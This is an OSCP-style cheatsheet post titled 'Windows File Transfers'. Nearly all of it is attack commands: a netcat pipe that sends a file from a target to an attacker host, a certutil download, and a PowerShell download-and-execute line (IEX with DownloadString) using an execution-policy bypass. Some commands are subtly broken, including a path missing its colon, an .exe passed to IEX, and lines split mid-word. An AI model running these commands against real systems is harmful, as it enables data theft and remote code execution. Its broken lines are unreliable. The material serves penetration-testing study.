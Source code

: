 ```yaml
---
title: Windows File Transfers
author: linatl
date: "2021-03-10 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80
Python2
> sudo python -m SimpleHTTPServer 80
```

###### SMBserver
```
impacket-smbserver.py secure .
impacket-smbserver.py secure . -smb2support
```

###### netcat
```
On the attacker system:
> nc -lvp 80 > file.txt
On the target system:
> nc 192.168.1.1 80 < file.txt
```

###### certutil
```
> certutil.exe -urlcache -f http://192.168.1.1/file.txt file.txt
```

###### Powershell
```
Download
> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/file.exe', 'C\file.exe')

Execute
> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro
file -File file.ps1

Download and execute
> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('
http://192.168.1.1/file.exe')
```
